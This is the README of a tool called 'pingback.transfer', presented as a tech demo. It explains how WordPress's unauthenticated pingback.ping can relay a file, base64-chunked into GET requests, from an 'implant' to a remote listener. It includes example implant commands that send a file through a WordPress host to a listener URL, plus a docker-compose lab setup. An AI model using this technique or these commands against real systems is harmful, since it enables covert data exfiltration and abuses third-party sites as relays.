 # pingback.transfer
Tech demo of using WordPress' built in xmlrpc - pingback.ping to transfer files!


## Installation
This is only needed for the listener. Implant _should_ work with standard python libs.
```shell
pip install -r requirements.txt
```

## Usage -- implant
NOTE: **The listener must be on before running the implant.**

Only "small" files are supported. You can try big ones too, but it can be unreliable. My testing worked with 1.5mb, at the very least. If the connection is unstable, you're trying to send a lot of data, or what ever it may be and need to tweak the file chunk size: `-c` flag is your friend! My testing only worked up to 4500, so 4000 is set as the "safe default"

Example commands:
```shell
python3 "./implant.py" -f "<FILE>" -w "<WP>" -l "<LISTENER>"

python3 "./implant.py" -f "./input/demo.png" -w "http://192.168.113.74/" -l "http://192.168.0.2:5500/listener/"

python3 "./implant.py" -f "./input/demo.png" -w "http://192.168.113.74/" -l "http://192.168.0.2:5500/listener/" -c 560
```

## Usage -- listener
Start with:
```shell
python3 listener.py
```

## Don't have a WordPress? No problem!
You can use the `docker-compose.yml` to create a WordPress site. It will have pingback enabled by default. Run with command:
`docker-compose up -d && docker-compose logs -f`

## Explanation

"pingback.ping is a method used in WordPress for pingback notifications between websites that support pingbacks. When you link to a post or page on another WordPress site, and that site also supports pingbacks, WordPress will attempt to notify that site that you've linked to them."

The pingback method can be used even when unauthorized, and it makes an webrequest to an arbitary address. This GET webrequest can then be used for various things, here it's used to relay information. 

This is a tech demo of using those GET requests to send files.

Data is read from a file on the implant side, and then base64 encoded and sent through multiple small GET requests to the listener, which then decodes the data and writes it to a file. Implant files should be in the "input" folder, and listener will write all the files into "output" folder.

# NOTES

Due to the nature of this tech demo, there are some quirks. For example, if a file already exists, or the chunksize is too small, files may be corrupted or lost in transit. I will not be held responsible for any and all damages caused by running this code.

Important: This project is intended for educational and lawful purposes only. The author and contributors are not responsible for any misuse or illegal activities that may arise from using this software. By using this software, you agree to comply with all applicable laws and regulations. If you are uncertain about the legality of your actions, please seek legal advice before proceeding. The author and contributors disclaim any and all liability for any direct, indirect, or consequential loss or damage arising from your use of the software. Use this software at your own risk.

Thank you for your understanding and cooperation.